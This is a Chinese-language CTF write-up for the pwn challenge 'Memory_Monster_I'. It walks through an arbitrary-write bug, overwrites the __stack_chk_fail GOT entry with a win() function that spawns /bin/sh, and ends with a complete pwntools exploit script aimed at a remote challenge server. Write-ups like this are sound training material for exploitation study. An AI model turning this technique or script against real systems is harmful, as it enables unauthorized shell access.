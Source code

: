 ### Memory_Monster_I

#### 1x1 分析

安全保护：

```shell
[*] './Memory_Monster_I'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000) 地址固定
```

直接分析程序逻辑吧。

`main()`:

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf; // [rsp+20h] [rbp-30h]
  unsigned __int64 v5; // [rsp+48h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts(s);
  write(1, "addr:", 5uLL);
  read(0, &buf, 0xC8uLL);
  write(1, "data:", 5uLL);
  read(0, (void *)*(unsigned int *)&buf, 0x18uLL);
  return 0LL;
}
```



<img src="截屏2020-05-23下午11.26.34.png" alt="截屏2020-05-23下午11.26.34" style="zoom:50%;" />

首先会输出欢迎界面(~~他咋知道我最近在玩MC~~)

**然后随意输入一个地址，然后在这个地址上任意写。**

因为写完程序就直接结束了。

所以我直接想到的就是在`read`结束之后，程序会跑到哪里，很自然的我就想到`__stack_chk_fail`。

他是`libc`里的函数，也就是说只要修改他的`got`就可以任意操作了，很幸运的是，程序里还提供了后门函数

`win()`

```c
// 0x40124a
int win()
{
  return system("/bin/sh");
}
```

也就是说，我们只要把`__stack_chk_fail`的`got`改成`win`，然后故意触发`__stack_chk_fail`，就可以拿到shell了。

**这里有个注意的地方,就是`system`和`__stack_chk_fail`的GOT的位置，他们是相邻的，所以，在修改`__stack_chk_fail`的时候，要注意使用``send`而不是`sendline`,避免把`system@got`破坏掉。**

```shell
[0x404028] __stack_chk_fail@GLIBC_2.4 -> 0x401056 (__stack_chk_fail@plt+6) ◂— push   2
[0x404030] system@GLIBC_2.2.5 -> 0x401066 (system@plt+6) ◂— push   3
```

#### 1x2 调试记录

这是在修改完地址之后，可以看到`__stack_chk_fail@got`已经被修改为`win()`。

<img src="截屏2020-05-23下午11.53.26.png" alt="截屏2020-05-23下午11.53.26" style="zoom:50%;" />

然后故意破坏CANARY，就可以触发`__stack_chk_fail()`了。

<img src="截屏2020-05-23下午11.55.49.png" alt="截屏2020-05-23下午11.55.49" style="zoom:50%;" />

然后单步进入：可以看到已经进入`win()`函数。

<img src="截屏2020-05-23下午11.57.06.png" alt="截屏2020-05-23下午11.57.06" style="zoom:50%;" />

最后拿到shell。

#### 1x3 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

gard_got = 0x404028
win = 0x40124A

# p = process('./Memory_Monster_I')
p = remote('183.129.189.60', 10081)

# gdb.attach(p, '\n')
# pause()

payload = p64(gard_got)
payload = payload + 'a' * 0x20
p.sendafter('addr:', payload + '\n')
# pause()

payload = p64(win)
p.sendafter('data:', payload)
# pause()

p.interactive()
```

### Memory_Monster_II

